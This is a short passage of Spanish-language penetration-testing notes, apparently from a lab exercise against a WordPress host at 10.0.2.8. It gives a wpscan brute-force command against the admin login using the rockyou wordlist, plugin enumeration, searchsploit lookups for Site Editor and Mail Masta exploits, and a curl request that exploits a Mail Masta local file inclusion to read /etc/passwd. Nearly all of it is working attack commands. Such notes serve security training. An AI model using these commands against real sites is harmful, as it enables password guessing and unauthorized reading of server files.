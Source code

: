 ## Fuerza bruta utilizando wpscan
```
wpscan -U admin -P /usr/share/wordlist/rockyou.txt --url http://10.0.2.8/wp-login.php
```

## Explotación de plugins
```
wpscan --url http://10.0.2.8/
```

o

```
wpscan --url http://10.0.2.8/ -e p --plugins-detection aggressive
```
![[Pasted image 20250701213227.png]]
Vamos a buscar exploits asociados con los plugins
```
searchsploit wordpress site editor
searchsploit wordpress mail masta
```
![[Pasted image 20250701213524.png]]
Examinaremos el exploit de texto del plugin mail masta:
```
searchsploit -x 40290
```
![[Pasted image 20250701214141.png]]
El LFI lo aconteceremos de la siguiente forma:
```
curl -s -X GET "http://10.0.2.8/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
```
Podemos explotar el LFI de una forma similar con el plugin site editor


